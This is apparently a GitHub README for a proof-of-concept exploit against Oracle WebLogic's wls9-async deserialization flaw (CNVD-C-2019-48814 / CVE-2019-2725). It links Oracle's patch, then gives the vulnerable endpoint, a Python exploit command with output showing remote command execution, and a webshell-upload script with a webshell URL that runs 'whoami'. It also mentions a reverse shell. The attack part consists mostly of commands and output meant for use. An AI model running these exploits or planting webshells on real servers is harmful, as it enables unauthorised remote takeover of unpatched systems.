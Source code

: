 # CNVD-C-2019-48814
WebLogic wls9-async反序列化远程命令执行漏洞

### 回显poc for weblogic 
![](./command_see.jpg)
![](./CVE-2019-2725-see.jpg)

### Patch update: 
```

https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html

```
### 漏洞复现：


```
http://10.10.20.166:7001/_async/AsyncResponseService
```

```
curl -i http://10.10.20.166:7001/_async/favicon.ico
```
##  CNVD-C-2019-48814 Video

[![CNVD-C-2019-48814](https://i.ytimg.com/vi/KEgOrgcLu0s/hqdefault.jpg?sqp=-oaymwEZCNACELwBSFXyq4qpAwsIARUAAIhCGAFwAQ==&rs=AOn4CLCLGk3OZ83msmbe5IgfAq6EFN2Dhw)](https://github.com/jas502n/CNVD-C-2019-48814/blob/master/CNVD-C-2019-48814.mp4)

```
python CNVD-C-2019-48814.py -u  http://10.10.20.166:7001  -p 1.txt

>>>>Common See:

write website favicon.ico
Don't Need RMI Server

http://10.10.20.166:7001/_async/favicon.ico

>>>>Request Success!
status_code:202

C:\Users\CTF\Desktop\weblogic\byte>curl -i http://10.10.20.166:7001/_async/favicon.ico
HTTP/1.1 200 OK
Date: Thu, 25 Apr 2019 14:37:49 GMT
Accept-Ranges: bytes
Content-Length: 5
Last-Modified: Thu, 25 Apr 2019 14:37:45 GMT
X-Powered-By: Servlet/2.5 JSP/2.1

root

```
## Use RMI
![](./python.jpg)

![](./burpsuite.jpg)

###  CVE-2017-10271 No pactch

#### windows-linux-webshell
```
upadte: 自定义webshell名字，适用于windows or linux upload webshell

python async_webshell-all.py  http://10.10.20.166:7001/ webshell.jsp
>>>Webshell:
http://10.10.20.166:7001//bea_wls_internal/webshell.jsp?pwd=123&cmd=whoami
```
![](./windows-linux-webshell.jpg)


#### resever_shell
![](./reserve_shell.jpg)
#### command see
![](./command.jpg)
#### webshell
![](./webshell.jpg)

